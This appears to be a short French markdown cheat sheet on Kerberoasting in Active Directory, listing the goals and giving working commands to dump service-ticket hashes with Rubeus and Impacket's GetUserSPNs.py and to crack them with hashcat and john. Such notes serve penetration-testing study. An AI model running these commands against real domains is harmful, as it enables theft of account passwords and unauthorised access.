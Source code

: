 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Sources

- https://dl.packetstormsecurity.net/papers/general/kerberoasting.pdf

## Objectifs
- Obtenir une liste de compte utilisateurs disposant d'un SPN
- Collecter les TGS associés à ces SPNs (chiffrés en RC4)
- Tenter de cracker les mots de passe des comptes utilisateurs à partir des TGS récupérés (qui sont chiffrés avec les hash de comptes utilisateurs respectifs)

## Méthodologie
### Locale

#### Utiliser Rubeus.exe

Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs
- 
./Rubeus.exe kerberoast /outfile:hash.txt


#### Cracker les hash :

hashcat -m 13100 --force -a 0 hash.txt dict.txt

### Distante

#### Impacket

##### Utiliser GetUserSPNs.py
 Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
./GetUserSPNs.py -request -dc-ip 192.168.1.105 ignite.local/yashika
```

##### Cracker les hash (bruteforce)
john --wordlist=/path/to/rockyou.txt hashes
